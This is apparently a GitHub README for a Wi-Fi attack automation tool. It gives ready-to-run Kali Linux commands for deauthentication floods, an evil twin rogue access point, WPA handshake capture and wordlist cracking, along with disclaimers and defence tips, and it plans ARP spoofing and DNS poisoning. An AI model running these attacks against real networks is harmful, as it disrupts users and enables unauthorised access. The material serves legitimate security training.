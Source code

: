 
# 🔥 Wi-Fi Attack Automation Tool (Kali Linux & Windows PowerShell) 🔥

This tool allows you to automate Wi-Fi attacks such as Deauthentication, Evil Twin, and WPA Handshake Capture in **Kali Linux**, and enables Wi-Fi scanning and learning features in **Windows PowerShell**. Perfect for cybersecurity students and professionals!

🚨 **Disclaimer**: This tool is for educational purposes only. Always get permission from network owners before conducting any attacks.

## 📜 Features

### 🔥 **Kali Linux** Version:
- 🕵️ **Network Scanning**: Identify nearby Wi-Fi networks.
- 🚫 **Deauthentication Attack**: Disconnect all clients from a target network.
- 💀 **Evil Twin Attack**: Set up a rogue Wi-Fi access point.
- 📡 **WPA Handshake Capture**: Capture handshakes for offline cracking.
- 🛡️ **Defense Tips**: Learn how to defend your network against attacks.

### 💻 **Windows PowerShell** Version:
- 🕵️ **Wi-Fi Scanning**: View available Wi-Fi networks.
- 🛡️ **Defense Tips**: Learn about Wi-Fi security best practices.
- 📚 **Educational Features**: Gain insights into different types of Wi-Fi attacks and how they work.

## 🎯 How to Use

### Kali Linux Setup

#### 1. Install Dependencies
Ensure you have all necessary tools installed:
```bash
sudo apt-get install aircrack-ng hostapd dnsmasq
```

#### 2. Clone the Repo
```bash
git clone https://github.com/yourusername/wifi-attack-tool.git
cd wifi-attack-tool
```

#### 3. Install Python Dependencies
```bash
pip install -r requirements.txt
```

#### 4. Run the Tool
```bash
sudo python3 main.py
```

---

### Windows PowerShell Setup

#### 1. Clone the Repo
For Windows PowerShell, you can clone the repository by running:

```powershell
git clone https://github.com/yourusername/wifi-attack-tool.git
cd wifi-attack-tool
```

#### 2. Install Dependencies
You may need to install some PowerShell modules:

```powershell
Install-Module -Name WiFiProfileManagement
```

You can also use built-in cmdlets for simple network scanning.

#### 3. Run the Tool
```powershell
.\main.ps1
```

---

## 📡 Wi-Fi Scanning

### Kali Linux:
- Run the network scanning module to view nearby Wi-Fi networks:
```bash
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
```

### Windows PowerShell:
- Scan for available Wi-Fi networks:
```powershell
netsh wlan show networks
```

---

## 🚀 Attacks (Kali Linux)

1. **Deauthentication Attack**:
   - Disconnect clients from a target network:
     ```bash
     sudo airmon-ng start wlan0 <channel>
     sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon
     ```

2. **Evil Twin Attack**:
   - Create a fake access point:
     ```bash
     sudo hostapd -B /etc/hostapd.conf
     sudo dnsmasq -C /etc/dnsmasq.conf
     ```

3. **WPA Handshake Capture**:
   - Capture a WPA handshake:
     ```bash
     sudo airodump-ng --bssid <BSSID> --channel <channel> -w <output> wlan0mon
     ```

4. **Crack WPA Handshake**:
   - Crack the captured WPA handshake using a wordlist:
     ```bash
     sudo aircrack-ng <handshake.cap> -w /usr/share/wordlists/rockyou.txt
     ```

---

## 🛡️ Defense Measures

### Linux & Windows:
After simulating attacks, learn how to protect your network:
- Use **WPA3** encryption for enhanced security.
- Disable **WPS** (Wi-Fi Protected Setup).
- Enable **802.11w** to protect management frames.
- Set a strong and unique Wi-Fi password.
- Regularly monitor your network for suspicious devices.

---

## 🎯 Windows PowerShell Features

In Windows PowerShell, this tool provides insights and educational examples on common Wi-Fi attacks. It includes:
- **Wi-Fi Scanning**: View the available Wi-Fi networks around you.
- **Attack Simulations**: Learn how attacks like Deauthentication and Evil Twin work (educational only).
- **Defense Tips**: Understand how to protect your network against common attacks.

---

## 🌐 Connect with Me

Follow me on Instagram or support my work by buying me a coffee!

[![Instagram](https://img.shields.io/badge/Instagram-E4405F?style=for-the-badge&logo=instagram&logoColor=white)](https://instagram.com/dannyk_739)
[![BuyMeACoffee](https://img.shields.io/badge/Buy_Me_A_Coffee-FFDD00?style=for-the-badge&logo=buy-me-a-coffee&logoColor=black)](https://www.buymeacoffee.com/DannyK)

---

## 📖 Tutorials

### Scanning for Networks

#### Kali Linux:
1. Start your Wi-Fi adapter in monitoring mode:
   ```bash
   sudo airmon-ng start wlan0
   ```

2. Scan networks in range:
   ```bash
   sudo airodump-ng wlan0mon
   ```

#### Windows PowerShell:
1. Run the following command to view available networks:
   ```powershell
   netsh wlan show networks
   ```

### Defending Against Attacks

1. **WPA3**: Use WPA3 encryption for the strongest security.
2. **MAC Filtering**: Limit which devices can connect to your Wi-Fi based on their MAC address.
3. **Disable WPS**: Turn off WPS in your router settings to prevent brute-force attacks.

---

## 🚀 Roadmap

- Add ARP Spoofing and DNS Poisoning attacks.
- Implement a GUI for both Windows and Linux.
- Add support for advanced password cracking options.

## ⚠️ Disclaimer

This tool is for **ethical hacking** and **educational purposes only**. Do not use it on networks you do not own or have permission to test.
